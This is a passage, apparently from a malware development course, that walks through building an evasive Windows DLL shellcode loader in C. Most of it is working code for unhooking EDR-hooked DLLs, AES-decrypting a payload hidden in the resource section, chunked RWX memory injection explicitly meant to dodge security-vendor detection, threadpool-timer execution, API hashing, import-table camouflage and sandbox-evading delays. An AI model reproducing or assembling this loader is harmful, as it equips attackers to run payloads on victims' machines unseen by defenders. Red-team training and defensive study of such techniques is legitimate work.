SET_SYSCALL(g_Nt.NtProtectVirtualMemory);
if (!NT_SUCCESS(STATUS = RunSyscall(NtCurrentProcess(),
&pLocalTxtSectionAddress, &sTextSectionSize, dwOldProtection,
&dwOldProtection))) {
goto _CLEANUP;
}
}
_CLEANUP:
// Move to the next dll
pNextEntry = pNextEntry->Flink;
iModules++;
// Unmap the \knowndlls\ dll if found mapped
if (pKnownDllCopy) {
SET_SYSCALL(g_Nt.NtUnmapViewOfSection);
RunSyscall(NtCurrentProcess(), pKnownDllCopy);
}
}
}
Prior to invoking the UnhookAllLoadedDlls function, it's
essential to initialize a Vectored Exception Handler (VEH). This
initialization process has been covered several times throughout the
course which utilizes the AddVectoredExceptionHandler WinAPI function.
Our custom VEH function itself is named VectoredExceptionHandler, and its functionality is outlined below:
Initially, it checks if the exception code corresponds to EXCEPTION_ACCESS_VIOLATION. If so, it proceeds to validate the source of the exception. If the exception was triggered within the target DLL's .text section, it is considered a valid exception and is processed by the function. Otherwise, the function returns EXCEPTION_CONTINUE_SEARCH.
Following this, the VEH function makes a syscall to NtProtectVirtualMemory, which designates the target .text section as a PAGE_EXECUTE_READWRITE memory region.
Finally, the VEH function replaces the hooked .text section with an unhooked version.
All of the steps mentioned above rely on the global variables initialized by the UnhookAllLoadedDlls function.
LONG WINAPI
VectoredExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo)
{
NTSTATUS STATUS = 0x00;
DWORD dwOldProtection = 0x00;
if (pExceptionInfo->ExceptionRecord->ExceptionCode ==
EXCEPTION_ACCESS_VIOLATION &&
pExceptionInfo->ExceptionRecord->ExceptionAddress >=
g_pLocalTxtSectionAddress &&
pExceptionInfo->ExceptionRecord->ExceptionAddress <=
((ULONG_PTR)g_pLocalTxtSectionAddress + g_sTextSectionSize)) {
SET_SYSCALL(g_Nt.NtProtectVirtualMemory);
if (!NT_SUCCESS(STATUS = RunSyscall(NtCurrentProcess(),
&g_pLocalTxtSectionAddress, &g_sTextSectionSize,
PAGE_EXECUTE_READWRITE, &dwOldProtection))) {
goto _FAILURE;
}
memcpy(g_pLocalTxtSectionAddress, g_pKnownDllTxtSectionAddress,
g_sTextSectionSize);
return EXCEPTION_CONTINUE_EXECUTION;
}
_FAILURE:
return EXCEPTION_CONTINUE_SEARCH;
}
Next up is the encryption phase where the loader will use the ctaes library for AES-256 encryption and decryption. To integrate this library into the loader, two additional files, specifically ctaes.c and ctaes.h, need to be included.
To use the ctaes library for AES256 encryption, the payload should be encrypted using the following functions:
AES256_CBC_init - Initialize a AES256_CBC_ctx structure, that will be used for the encryption or decryption of the payload.
AES256_CBC_encrypt - Applies the AES256 algorithm to encrypt a specified plaintext buffer.
On the other hand, to decrypt the payload, the loader should call the following:
AES256_CBC_init - Initialize a AES256_CBC_ctx structure, that will be used for the encryption or decryption of the payload.
AES256_CBC_decrypt - Applies the AES256 algorithm to decrypt a specified ciphertext buffer.
An example of calling these functions is found here, however, the loader will further enhance the AES256_CBC_encrypt and AES256_CBC_decrypt functions in the next section.
The original implementation of the encrypt and decrypt functions is shown below.
void AES256_CBC_encrypt(AES256_CBC_ctx* ctx, size_t blocks, unsigned char* encrypted, const unsigned char* plain) {
AESCBC_encrypt(ctx->ctx.rk, ctx->iv, 14, blocks, encrypted, plain);
}
void AES256_CBC_decrypt(AES256_CBC_ctx* ctx, size_t blocks, unsigned char* plain, const unsigned char *encrypted) {
AESCBC_decrypt(ctx->ctx.rk, ctx->iv, 14, blocks, plain, encrypted);
}
However, the function the functions have been updated to be as follows:
boolean AES256_CBC_encrypt(IN AES256_CBC_ctx* ctx, IN const unsigned char* plain, IN size_t plainsize, OUT PBYTE* encrypted)
{
if (plainsize % 16 != 0)
return FALSE;
size_t blocks = plainsize / 16;
*encrypted = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, plainsize);
if (*encrypted != NULL)
AESCBC_encrypt(ctx->ctx.rk, ctx->iv, 14, blocks, *encrypted, plain);
else
return FALSE;
return TRUE;
}
boolean AES256_CBC_decrypt(IN AES256_CBC_ctx* ctx, IN const unsigned char* encrypted, IN size_t ciphersize, OUT PBYTE* plain)
{
if (ciphersize % 16 != 0)
return FALSE;
size_t blocks = ciphersize / 16;
*plain = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, ciphersize);
if (*plain != NULL)
AESCBC_decrypt(ctx->ctx.rk, ctx->iv, 14, blocks, *plain, encrypted);
else
return FALSE;
return TRUE;
}
To perform payload encryption, a new program has been developed called PayloadEncrypter. This program's primary function is to read a payload file from the disk, encrypt it, and then save it under a new name, Payload.ctaes. This encrypted payload, Payload.ctaes, becomes an integral part of the loader's project and is stored within its resource section.
It's important to note that the ctaes library lacks support for padding. Therefore, before invoking the AES256_CBC_encrypt function, PayloadEncrypter must manually add padding to ensure that the payload buffer's size is a multiple of 16 bytes, as required by the AES algorithm.
The code for PayloadEncrypter isn't entirely new, and a similar approach was used when working with the Tiny-AES library in the Payload Encryption - AES Encryption
module. Consequently, this process is not extensively discussed in the
module but is instead shared within the module's code. It's worth
mentioning that PayloadEncrypter stores the AES key and Initialization Vector (IV) after the payload's ciphertext bytes in the generated Payload.ctaes file, as illustrated in the following images.
 

From the loader's perspective, the payload is stored in the .rsrc section. Therefore, it needs to perform the following two steps:
First, retrieve the payload from the resource section and copy it to a local buffer. This task is accomplished using the GetResourcePayload function, which is outlined below. GetResourcePayload internally calls GetResourceData to locate the payload file within the resource section, without utilizing the FindResource, LoadResource, LockResource, or SizeofResource WinAPIs. The GetResourcePayload function requires the following parameters:
hModule - A handle to the module from which the resource section payload should be retrieved.
wResourceId - The resource ID associated with the payload, which was assigned during the creation of the resource section.
ppResourceBuffer - A pointer to a PBYTE variable that will receive a pointer to the first byte of the resource payload.
pdwResourceSize - A pointer to a DWORD variable that will capture the size of the resource payload.
BOOL GetResourceData(IN HMODULE hModule,
IN WORD ResourceId, OUT PVOID* ppResourceRawData, OUT PDWORD
psResourceDataSize) {
CHAR* pBaseAddr = (CHAR*)hModule;
PIMAGE_DOS_HEADER pImgDosHdr =
(PIMAGE_DOS_HEADER)pBaseAddr;
PIMAGE_NT_HEADERS pImgNTHdr =
(PIMAGE_NT_HEADERS)(pBaseAddr + pImgDosHdr->e_lfanew);
PIMAGE_OPTIONAL_HEADER pImgOptionalHdr =
(PIMAGE_OPTIONAL_HEADER)&pImgNTHdr->OptionalHeader;
PIMAGE_DATA_DIRECTORY pDataDir =
(PIMAGE_DATA_DIRECTORY)&pImgOptionalHdr-
>DataDirectory[IMAGE_DIRECTORY_ENTRY_RESOURCE];
PIMAGE_RESOURCE_DIRECTORY pResourceDir = NULL,
pResourceDir2 = NULL, pResourceDir3 = NULL;
PIMAGE_RESOURCE_DIRECTORY_ENTRY pResourceEntry = NULL,
pResourceEntry2 = NULL, pResourceEntry3 = NULL;
PIMAGE_RESOURCE_DATA_ENTRY pResource = NULL;
pResourceDir = (PIMAGE_RESOURCE_DIRECTORY)(pBaseAddr +
pDataDir->VirtualAddress);
pResourceEntry = (IMAGE_RESOURCE_DIRECTORY_ENTRY*)(pResourceDir + 1);
for (DWORD i = 0; i < (pResourceDir->NumberOfNamedEntries +
pResourceDir->NumberOfIdEntries); i++) {
if (pResourceEntry[i].DataIsDirectory == 0)
break;
pResourceDir2 = (PIMAGE_RESOURCE_DIRECTORY)(pBaseAddr +
pDataDir->VirtualAddress + (pResourceEntry[i].OffsetToDirectory &
0x7FFFFFFF));
pResourceEntry2 = (PIMAGE_RESOURCE_DIRECTORY_ENTRY)(pResourceDir2 +
1);
if (pResourceEntry2->DataIsDirectory == 1 &&
pResourceEntry2->Id == ResourceId) {
pResourceDir3 = (PIMAGE_RESOURCE_DIRECTORY)(pBaseAddr +
pDataDir->VirtualAddress + (pResourceEntry2->OffsetToDirectory
& 0x7FFFFFFF));
pResourceEntry3 = (PIMAGE_RESOURCE_DIRECTORY_ENTRY)(pResourceDir3 +
1);
pResource = (PIMAGE_RESOURCE_DATA_ENTRY)(pBaseAddr +
pDataDir->VirtualAddress + (pResourceEntry3->OffsetToData &
0x7FFFFFFF));
*ppResourceRawData = (PVOID)(pBaseAddr +
(pResource->OffsetToData));
*psResourceDataSize = pResource->Size;
break;
}
}
if (*ppResourceRawData != NULL && *psResourceDataSize != NULL)
return TRUE;
return FALSE;
}
BOOL GetResourcePayload(IN HMODULE hModule, IN WORD wResourceId, OUT
PBYTE* ppResourceBuffer, OUT PDWORD pdwResourceSize) {
PBYTE pTmpResourceBuffer = NULL;
if (!GetResourceData(hModule, wResourceId, &pTmpResourceBuffer,
pdwResourceSize))
return FALSE;
*ppResourceBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY,
*pdwResourceSize);
memcpy(*ppResourceBuffer, pTmpResourceBuffer, *pdwResourceSize);
return TRUE;
}
Next, it retrieves the AES key and IV from the payload file and proceeds to invoke the AES256_CBC_decrypt function. This operation is carried out using the FetchAesConfAndDecrypt function, as demonstrated below. FetchAesConfAndDecrypt requires the following parameters:
pPayloadBuffer - A pointer to the ciphertext payload.
sPayloadSize - A pointer to a SIZE_T
variable that stores the size of the ciphertext payload. After
decryption, this variable will be updated to reflect the size of the
plaintext payload.
ppDecryptedPayload - A pointer to a PBYTE variable that will store the base address of the plaintext payload.
#define KEY_SIZE 32
#define IV_SIZE 16
#define SET_TO_MULTIPLE_OF_4096(X) ( ((X) + 4095) & (~4095) )
BOOL FetchAesConfAndDecrypt(IN PBYTE pPayloadBuffer, IN OUT SIZE_T*
sPayloadSize, OUT PBYTE* ppDecryptedPayload) {
BOOL bResult = FALSE;
AES256_CBC_ctx CtAesCtx = { 0 };
BYTE pAesKey [KEY_SIZE] = { 0 };
BYTE pAesIv [IV_SIZE] = { 0 };
ULONG_PTR uAesKeyPtr = NULL,
uAesIvPtr = NULL;
uAesKeyPtr = ((pPayloadBuffer + *sPayloadSize) - (KEY_SIZE + IV_SIZE));
uAesIvPtr = ((pPayloadBuffer + *sPayloadSize) - IV_SIZE);
Memcpy(pAesKey, uAesKeyPtr, KEY_SIZE);
Memcpy(pAesIv, uAesIvPtr, IV_SIZE);
// Updating the payload size
*sPayloadSize = *sPayloadSize - (KEY_SIZE + IV_SIZE);
// Decrypting
AES256_CBC_init(&CtAesCtx, pAesKey, pAesIv);
if (!AES256_CBC_decrypt(&CtAesCtx, pPayloadBuffer, *sPayloadSize,
ppDecryptedPayload))
goto _FUNC_CLEANUP;
// "ppDecryptedPayload" is resized to be of size multiple of 4096
*ppDecryptedPayload = HeapReAlloc(GetProcessHeap(),
HEAP_ZERO_MEMORY, *ppDecryptedPayload,
SET_TO_MULTIPLE_OF_4096(*sPayloadSize));
if (*ppDecryptedPayload == NULL)
goto _FUNC_CLEANUP;
bResult = TRUE;
_FUNC_CLEANUP:
HeapFree(GetProcessHeap(), 0x00, pPayloadBuffer); // Free allocated
heap in 'GetResourcePayload' function
return bResult;
}
The loader will implement payload injection by chunking which still relies on the same standard syscalls (NtAllocateVirtualMemory and NtProtectVirtualMemory) but these syscalls are executed multiple times using a method known as chunking.
Chunking involves grouping various pieces of information into a single,
more cohesive dataset. In this module, chunking will be used to inject
the payload into memory. This is achieved by allocating small chunks of
memory successively until the combined buffer size is sufficient to
accommodate the entire payload. The same logic is applied to modify
memory permissions to allow execution after allocation. Injecting the
payload in this manner offers several advantages:
Some security vendors tend to filter out small allocations, particularly from the perspective of ETW. This is because small allocations are quite common on a system, making it challenging to monitor every single one. As a result, allocating memory in small regions at a time may potentially be categorized as a non-critical event, although still detectable.
By having the loader make multiple calls to NtAllocateVirtualMemory and NtProtectVirtualMemory,
it can disrupt the typical injection pattern (allocate - modify
permissions - execute) often scrutinized by security vendors seeking
malicious activity.
It's important to note that while chunking is a valuable technique to evade injection-based detections, it is not a foolproof solution.
The image below illustrates how the loader allocates and adjusts the
memory permissions of the memory region intended for writing the
payload. Notice the READ_ONLY memory page that is intentionally left behind.
The injection process will go through the following series of steps:
The payload size is adjusted to become a multiple of a single page size, which is 4096 bytes.
NtAllocateVirtualMemory is invoked to reserve a memory region. This reserved memory region is designed to accommodate the payload along with an additional READ_ONLY memory page, intentionally left behind for the remainder of the injection procedure. This particular NtAllocateVirtualMemory
call serves the purpose of reserving memory and cannot be carried out
in chunks. This is because there is a risk that the next address to be
reserved (on the subsequent memory page) might already be allocated for
another task. If you're interested in further details, Module 6: Windows Memory Management dives into the concepts of reserved vs. committed memory.
The base address of the allocation is incremented by 4096 (which corresponds to the page size) to bypass the READ_ONLY memory page.
A for-loop is initiated, with iterations equal to (payload size/page size). During each iteration, NtAllocateVirtualMemory is called once more to commit the memory page that was previously reserved. This committed memory page is configured as a PAGE_READWRITE
memory region. After each iteration, the base address is further
incremented by 4096 (page size) to point to the subsequent memory page
awaiting commitment.
A similar for-loop is used to invoke NtProtectVirtualMemory, which updates memory permissions to PAGE_EXECUTE_READWRITE. This loop mirrors the previous step in terms of iteration count.
Finally, the payload is copied over to the newly allocated RWX memory. This is accomplished through a for-loop that uses memcpy for a total of (payload size/page size) iterations.
The InjectEncryptedPayload function performs the steps explained in the previous section along with decrypting the payload via the FetchAesConfAndDecrypt function. Moreover, InjectEncryptedPayload returns TRUE if the payload is successfully injected. The function also requires the following parameters:
pPayloadBuffer - The base address of the ciphertext payload (returned by GetResourcePayload).
sPayloadSize - The size of the ciphertext payload (returned by GetResourcePayload).
pInjectedPayload - A pointer to a PBYTE variable that will receive the base address of the injected plaintext payload.
#define PAGE_SIZE 4096
#define SET_TO_MULTIPLE_OF_4096(X) ( ((X) + 4095) & (~4095) )
BOOL InjectEncryptedPayload(IN PBYTE pPayloadBuffer, IN SIZE_T
sPayloadSize, OUT PBYTE* pInjectedPayload) {
// We decrypt the payload to work with the new payload size
PBYTE pDecryptedPayload = NULL;
if (!FetchAesConfAndDecrypt(pPayloadBuffer, &sPayloadSize,
&pDecryptedPayload)) {
return FALSE;
}
NTSTATUS STATUS = 0x00;
SIZE_T sNewPayloadSize = SET_TO_MULTIPLE_OF_4096(sPayloadSize), //
rounded up payload size
sChunkSize = PAGE_SIZE;
DWORD ii = sNewPayloadSize / PAGE_SIZE, // number of
iterations needed
dwOldPermissions = 0x00;
PVOID pAddress = NULL,
pTmpAddress = NULL;
PBYTE pTmpPayload = NULL;
// If not initialized
if (!g_Nt.bInit)
return FALSE;
//---------------------------------------------------------------------------------------------------------------------------------------------
// ALLOCATE - COMMIT + RW
// This can't be allocated in chunks because there is a risk that the
next address to reserve is already reserved for another task
// This will lead NtAllocateVirtualMemory to return
'STATUS_CONFLICTING_ADDRESSES'.
// Adding an additional page.
// This page will remain RO and Reserved
sNewPayloadSize = sNewPayloadSize + PAGE_SIZE;
SET_SYSCALL(g_Nt.NtAllocateVirtualMemory);
if (!NT_SUCCESS(STATUS = RunSyscall(NtCurrentProcess(), &pAddress,
0, &sNewPayloadSize, MEM_RESERVE, PAGE_READONLY))) {
return FALSE;
}
// Fixing up the base address and size to leave an RO page behind
sNewPayloadSize = sNewPayloadSize - PAGE_SIZE;
pAddress = (PVOID)((ULONG_PTR)pAddress + PAGE_SIZE);
//---------------------------------------------------------------------------------------------------------------------------------------------
// Starting from the base address
pTmpAddress = pAddress;
// ALLOCATE - COMMIT + RW
for (DWORD i = 0; i < ii; i++) {
SET_SYSCALL(g_Nt.NtAllocateVirtualMemory);
if (!NT_SUCCESS(STATUS = RunSyscall(NtCurrentProcess(),
&pTmpAddress, 0, &sChunkSize, MEM_COMMIT, PAGE_READWRITE))) {
return FALSE;
}
pTmpAddress = (PVOID)((ULONG_PTR)pTmpAddress + sChunkSize);
}
//---------------------------------------------------------------------------------------------------------------------------------------------
// Starting from the base address
pTmpAddress = pAddress;
// RWX
for (DWORD i = 0; i < ii; i++) {
SET_SYSCALL(g_Nt.NtProtectVirtualMemory);
if (!NT_SUCCESS(STATUS = RunSyscall(NtCurrentProcess(),
&pTmpAddress, &sChunkSize, PAGE_EXECUTE_READWRITE,
&dwOldPermissions))) {
return FALSE;
}
pTmpAddress = (PVOID)((ULONG_PTR)pTmpAddress + sChunkSize);
}
//---------------------------------------------------------------------------------------------------------------------------------------------
// Starting from the base address
pTmpAddress = pAddress;
pTmpPayload = pDecryptedPayload;
// WRITE
for (DWORD i = 0; i < ii; i++) {
memcpy(pTmpAddress, pTmpPayload, PAGE_SIZE);
pTmpPayload = (PBYTE)((ULONG_PTR)pTmpPayload + PAGE_SIZE);
pTmpAddress = (PBYTE)((ULONG_PTR)pTmpAddress + PAGE_SIZE);
}
*pInjectedPayload = pAddress;
return TRUE;
}
Following a successful call to the InjectEncryptedPayload
function, the subsequent step involves executing the injected payload.
Execution of the payload is achieved through the use of the SetThreadpoolTimer and CreateThreadpoolTimer WinAPI functions.
The CreateThreadpoolTimer function is used to execute
the payload as a callback function once a timer object has elapsed. The
timer object is configured by the SetThreadpoolTimer
function and expires after a specified period of time, for instance, 10
seconds, as defined by the function. You can find an example of using
these WinAPIs provided by Microsoft here.
The following ExecutePayload function leverages the CreateThreadpoolTimer and SetThreadpoolTimer WinAPIs to execute the payload. It accepts a single parameter, pInjectedPayload, representing the address of the injected payload returned by the InjectEncryptedPayload function.
#define PAYLOAD_EXEC_DELAY 0x0A // 10 Seconds delay before executing the payload
VOID ExecutePayload(IN PVOID pInjectedPayload) {
TP_CALLBACK_ENVIRON tpCallbackEnv = { 0 };
FILETIME FileDueTime = { 0 };
ULARGE_INTEGER ulDueTime = { 0 };
PTP_TIMER ptpTimer = NULL;
if (!pInjectedPayload)
return;
InitializeThreadpoolEnvironment(&tpCallbackEnv);
if (!(ptpTimer = CreateThreadpoolTimer((PTP_TIMER_CALLBACK)pInjectedPayload, NULL, &tpCallbackEnv)))
return;
// Set the timer to fire in PAYLOAD_EXEC_DELAY seconds.
ulDueTime.QuadPart = (ULONGLONG)-(PAYLOAD_EXEC_DELAY * 10 * 1000 * 1000);
FileDueTime.dwHighDateTime = ulDueTime.HighPart;
FileDueTime.dwLowDateTime = ulDueTime.LowPart;
SetThreadpoolTimer(ptpTimer, &FileDueTime, 0x00, 0x00);
WaitForSingleObject((HANDLE)-1, INFINITE);
}
The next objective of our loader is to obfuscate the IAT using API hashing. This is achieved through the GetModuleHandleH and GetProcAddressH functions, which replace GetModuleHandleA and GetProcAddress, respectively. Both of these functions were introduced earlier in the course and employ the CRC string hashing algorithm.
The GetModuleHandleH function, as presented below, takes a single parameter, uModuleHash, representing the CRC hash value of the lowercase ASCII DLL name. When called, GetModuleHandleH will return the base address of the specified DLL if it is found. Furthermore, if GetModuleHandleH
is invoked without specifying a hash value, it will return the base
address of the local executable image. This behavior is analogous to the
original GetModuleHandle WinAPI.
HMODULE GetModuleHandleH(IN UINT32 uModuleHash) {
PPEB pPeb = NULL;
PPEB_LDR_DATA pLdr = NULL;
PLDR_DATA_TABLE_ENTRY pDte = NULL;
pPeb = (PPEB)__readgsqword(0x60);
pLdr = (PPEB_LDR_DATA)(pPeb->LoaderData);
pDte = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);
// Return the handle of the local .exe image
if (!uModuleHash)
return (HMODULE)(pDte->InInitializationOrderLinks.Flink);
while (pDte) {
if (pDte->FullDllName.Buffer && pDte->FullDllName.Length < MAX_PATH) {
CHAR cLDllName [MAX_PATH] = { 0 };
DWORD x = 0x00;
while (pDte->FullDllName.Buffer[x]) {
CHAR wC = pDte->FullDllName.Buffer[x];
// Convert to lowercase
if (wC >= 'A' && wC <= 'Z')
cLDllName[x] = wC - 'A' + 'a';
// Copy other characters (numbers, special characters ...)
else
cLDllName[x] = wC;
x++;
}
cLDllName[x] = '\0';
if (CRCHASH(pDte->FullDllName.Buffer) == uModuleHash || CRCHASH(cLDllName) == uModuleHash)
return (HMODULE)(pDte->InInitializationOrderLinks.Flink);
}
// Move to the next node in the linked list
pDte = *(PLDR_DATA_TABLE_ENTRY*)(pDte);
}
return NULL;
}
The GetProcAddressH function, shown below, requires two parameters:
hModule - A handle to the DLL module that holds the address of the desired WinAPI.
uApiHash - The CRC hash value corresponding to the WinAPI's name.
This GetProcAddressH function contains forwarded functions support which was discussed in the Forwarded Functions challenge.
FARPROC GetProcAddressH(IN HMODULE
hModule, IN UINT32 uApiHash) {
PBYTE pBase =
(PBYTE)hModule;
PIMAGE_NT_HEADERS pImgNtHdrs = NULL;
PIMAGE_EXPORT_DIRECTORY pImgExportDir = NULL;
PDWORD pdwFunctionNameArray = NULL;
PDWORD pdwFunctionAddressArray = NULL;
PWORD pwFunctionOrdinalArray = NULL;
DWORD dwImgExportDirSize = 0x00;
if (!hModule || !uApiHash)
return NULL;
pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase +
((PIMAGE_DOS_HEADER)pBase)->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase +
pImgNtHdrs-
>OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
dwImgExportDirSize =
pImgNtHdrs-
>OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
pdwFunctionNameArray = (PDWORD)(pBase +
pImgExportDir->AddressOfNames);
pdwFunctionAddressArray = (PDWORD)(pBase +
pImgExportDir->AddressOfFunctions);
pwFunctionOrdinalArray = (PWORD) (pBase +
pImgExportDir->AddressOfNameOrdinals);
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) {
CHAR* pFunctionName = (CHAR*)(pBase +
pdwFunctionNameArray[i]);
PVOID pFunctionAddress = (PVOID)(pBase +
pdwFunctionAddressArray[pwFunctionOrdinalArray[i]]);
if (CRCHASH(pFunctionName) == uApiHash) {
// Forwarded functions support:
if ((((ULONG_PTR)pFunctionAddress) >= ((ULONG_PTR)pImgExportDir))
&&
(((ULONG_PTR)pFunctionAddress) < ((ULONG_PTR)pImgExportDir) +
dwImgExportDirSize)
) {
CHAR cForwarderName [MAX_PATH] = { 0 };
DWORD dwDotOffset = 0x00;
PCHAR pcFunctionMod = NULL;
PCHAR pcFunctionName = NULL;
memcpy(cForwarderName, pFunctionAddress,
strlen((PCHAR)pFunctionAddress));
for (int i = 0; i < strlen((PCHAR)cForwarderName); i++) {
if (((PCHAR)cForwarderName)[i] == '.') {
dwDotOffset = i;
cForwarderName[i] = NULL;
break;
}
}
pcFunctionMod = cForwarderName;
pcFunctionName = cForwarderName + dwDotOffset + 1;
fnLoadLibraryA pLoadLibraryA =
(fnLoadLibraryA)GetProcAddressH(GetModuleHandleH(kernel32dll_CRC32),
LoadLibraryA_CRC32);
if (pLoadLibraryA)
return GetProcAddressH(pLoadLibraryA(pcFunctionMod),
CRCHASH(pcFunctionName));
}
return (FARPROC)pFunctionAddress;
}
}
return NULL;
}
The shared code accompanying this module includes a project named HashCalculator,
responsible for generating all the necessary hash values required for
the complete implementation of API hashing within the loader. The image
below provides an example of the output produced by the HashCalculator program.
The concept of API camouflage, as introduced in Module 80: IAT Camouflage, is a technique used to enhance the obfuscation of the IAT. In this technique, non-malicious WinAPIs are incorporated into the code but are never actually invoked. This forces the compiler to include these WinAPIs in the IAT of the compiled implant, creating the appearance of a legitimate application.
When the IatCamouflage function below is invoked, the WinAPIs listed within it are added to the IAT of its implementation.
// Generate a random compile-time seed
int RandomCompileTimeSeed(void)
{
return '0' * -40271 +
__TIME__[7] * 1 +
__TIME__[6] * 10 +
__TIME__[4] * 60 +
__TIME__[3] * 600 +
__TIME__[1] * 3600 +
__TIME__[0] * 36000;
}
// A dummy function that makes the if-statement in 'IatCamouflage' interesting for the compiler
PVOID Helper(PVOID* ppAddress) {
PVOID pAddress = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0xFF);
if (!pAddress)
return NULL;
// setting the first 4 bytes in pAddress to be equal to a random number (less than 255)
*(int*)pAddress = RandomCompileTimeSeed() % 0xFF;
// saving the base address by pointer
*ppAddress = pAddress;
// returning it
return pAddress;
}
// Function that imports WinAPIs but never uses them
VOID IatCamouflage() {
PVOID pAddress = NULL;
int* A = (int*)Helper(&pAddress);
// Impossible if-statement that will never run
if (*A > 350) {
// some random whitelisted WinAPIs
unsigned __int64 i = MessageBoxA(NULL, NULL, NULL, NULL);
i = GetLastError();
i = SetCriticalSectionSpinCount(NULL, NULL);
i = GetWindowContextHelpId(NULL);
i = GetWindowLongPtrW(NULL, NULL);
i = RegisterClassW(NULL);
i = IsWindowVisible(NULL);
i = ConvertDefaultLocale(NULL);
i = MultiByteToWideChar(NULL, NULL, NULL, NULL, NULL, NULL);
i = IsDialogMessageW(NULL, NULL);
}
// Freeing the buffer allocated in 'Helper'
HeapFree(GetProcessHeap(), 0, pAddress);
}
Delaying execution can help in bypassing virtualized environments, as mentioned in Module 74: Anti-Virtual Environments - Multiple Delay Execution Techniques. However, in our case, it also helps with the unhooking routine. When unhooking DLLs in the loader, having an EXCEPTION_ACCESS_VIOLATION
exception raised is predictable, and thus handled. However, delaying
the execution even for a short time before unhooking the target DLLs
will give time for the current process to effectively execute its
function calls without interception. This will lower the possibility of
an exception being raised and thus create a more stable approach without
triggering the VEH function that will use the RWX memory permission.
The loader will use the NtDelayExecution syscall function for execution delaying via the following DelayExecution function. DelayExecution requires one parameter, fMinutes, which represents the time in minutes for NtDelayExecution to delay. For example, if fMinutes was 0.1, DelayExecution would delay the execution for 6 seconds (60 * 0.1). It is worth noting that NtDelayExecution is called via the HellsHall syscaller, because it is called before the unhooking routine, and thus can be hooked.
VOID DelayExecution(IN FLOAT fMinutes) {
NTSTATUS STATUS = 0x00;
DWORD dwMilliSeconds = fMinutes * 60000; //
Converting minutes to milliseconds
LONGLONG Delay = dwMilliSeconds * 10000; //
Converting from milliseconds to the 100-nanosecond negative time
interval
LARGE_INTEGER DelayInterval = { .QuadPart = (-1 * Delay) };
SET_SYSCALL(g_Nt.NtDelayExecution);
if (!NT_SUCCESS(STATUS = RunSyscall(FALSE, &DelayInterval))
&& STATUS != STATUS_TIMEOUT) {
// failed.
}
}
Printing runtime messages from the DLL isn't as straightforward as EXE since it can't rely on the printf
function alone. Depending on what type of process is loading the DLL
(i.e. whether it's a console application or a GUI application), the
behavior of printf differs. If the loading process is a console application, messages printed with printf
will appear in the same console as the application. However, when
dealing with a GUI application, understanding what the DLL is doing
becomes challenging unless it's being debugged, which becomes even more
complex.
To address this issue and enable runtime message printing from the loader, the following steps should be taken:
Check if the process to which the DLL is attached contains a console using the GetConsoleWindow function. GetConsoleWindow returns a handle to the console of the calling process if it exists.
If the target process lacks a console, a new console will be created using the AllocConsole WinAPI.
These steps are implemented in the CreateDebugConsole function below. Additionally, CreateDebugConsole ensures that a new console is only created once, which is due to the g_bCreated global variable that is initialized when CreateDebugConsole generates the initial console.
BOOL g_bCreated = FALSE;
VOID CreateDebugConsole() {
if (g_bCreated)
return;
if (!GetConsoleWindow() && AllocConsole())
g_bCreated = TRUE;
}
CreateDebugConsole should be the first function called within the DllMain function of the loader. This ensures that a console is established early on to serve as the destination for output messages.
With a console now available, the next step is to create a replacement for the printf function. The motivation behind this is that as the implementation progresses, the CRT library may be removed, resulting in printf not working anymore.
To address this, the provided PRINT macro is introduced, which uses the GetStdHandle and WriteConsoleA WinAPIs to facilitate message writing to the process's console.
#define ERROR_BUF_SIZE (MAX_PATH * 2)
#define PRINT( STR, ... ) \
if (1) { \
LPSTR cBuffer = (LPSTR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, ERROR_BUF_SIZE); \
if (cBuffer){ \
int iLength = wsprintfA(cBuffer, STR, __VA_ARGS__); \
WriteConsoleA(GetStdHandle(STD_OUTPUT_HANDLE), cBuffer, iLength, NULL, NULL); \
HeapFree(GetProcessHeap(), 0x00, cBuffer); \
} \
}
The majority of the PRINT macro calls utilize the following two macros:
__FILE__ - This is a predefined compiler macro used to obtain the current source code file's path. Because __FILE__ retrieves the entire file path, a new macro called GET_FILENAME is introduced to extract only the file's name from the path provided by __FILE__. The GET_FILENAME macro is defined as follows:#define GET_FILENAME(path) (strrchr(path, '\\') ? strrchr(path, '\\') + 1 : path)
// Example usage: GET_FILENAME(__FILE__)
__LINE__ - Another predefined macro, __LINE__, serves to retrieve the current line number within a source code file.The loader contains multiple PRINT calls throughout its functions for a verbose output. These PRINT calls will only be active if the DEBUG macro is defined, which is achieved through the #define DEBUG directive.
The DllMain function serves as the initial point of execution when the DLL is loaded into a running process. The DllMain function in this loader is displayed below. It performs two main tasks: first, it calls the CreateDebugConsole function if debug mode is enabled, and second, it utilizes the GetResourcePayload function to retrieve details about the payload from the resource section.
Unhooking and payload injection procedures are carried out in a separate function, distinct from the DllMain function. This is due to the DLL load lock problem, which will be explained in more detail in the upcoming module Introduction To DLL Sideloading. In short, the loader should not execute core functionality from DllMain and instead should be from an exported function.
#define CTAES_PAYLOAD_ID 0x5A // Set by the compiler when creating the .rc file
PBYTE g_pRsrcPayloadBuffer = NULL;
DWORD g_dwRsrcPayloadSize = 0x00;
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
switch (dwReason) {
case DLL_PROCESS_ATTACH: {
#ifdef DEBUG
CreateDebugConsole();
#endif
if (!GetResourcePayload(hModule, CTAES_PAYLOAD_ID, &g_pRsrcPayloadBuffer, &g_dwRsrcPayloadSize)) {
#ifdef DEBUG
PRINT("[!] Failed To Fetch The Payload From The Resource Section - %s.%d \n", GET_FILENAME(__FILE__), __LINE__);
#endif
return FALSE;
}
break;
}
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
Recall that due to the DLL load lock issue, the primary function
